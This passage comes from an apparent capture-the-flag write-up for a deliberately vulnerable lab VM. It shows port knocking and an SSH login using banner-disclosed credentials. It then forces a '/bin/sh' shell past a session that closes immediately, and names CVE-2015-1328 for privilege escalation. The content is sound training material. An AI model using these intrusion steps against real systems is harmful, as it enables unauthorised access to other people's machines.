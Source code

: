 {% highlight bash %}
[root:~]# ./knock.sh 10.0.1.113 8888 9999 7777 6666; ssh 10.0.1.113

The authenticity of host '10.0.1.113 (10.0.1.113)' can't be established.
ECDSA key fingerprint is fe:16:33:a4:4d:7f:3d:db:b6:11:d4:b8:c1:32:b6:79.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.0.1.113' (ECDSA) to the list of known hosts.
############################################
# CONGRATS! YOU HAVE OPENED THE SSH SERVER #
# USERNAME: butthead                       #
# PASSWORD: nachosrule                     #
############################################
root@10.0.1.113's password:

{% endhighlight %}

Logging in using the disclosed credentials worked, but the session closed almost immediately and displayed the following message:

{% highlight bash %}
butthead@10.0.1.113's password:
Welcome to Ubuntu 14.04.2 LTS (GNU/Linux 3.13.0-46-generic i686)

 * Documentation:  https://help.ubuntu.com/
Last login: Tue Mar  3 01:02:49 2015 from 192.168.56.102
You are only logging in for a split second! What do you do!
Connection to 10.0.1.113 closed.
{% endhighlight %}

The following command was executed, successfully spawning a shell on the target:

{% highlight bash %}
[root:~]# ./knock.sh 10.0.1.113 8888 9999 7777 6666; ssh butthead@10.0.1.113 "/bin/sh"
{% endhighlight %}

## Local System Enumeration

The following hint was discovered:

{% highlight bash %}
$ cat nachos
Great job on getting this far.

Can you login as beavis or root ?
{% endhighlight %}

## Local Privilege Escalation

Enumeration of the system indicted it was likely vulnerable to [CVE-2015-1328](https://people.canonical.com/~ubuntu-security/cve/2015/CVE-2015-1328.html), a local privilege escalation using overlayfs mounts inside of user namespaces. Allowing a local user to exploit the flaw to
gain administrative privileges on the system.
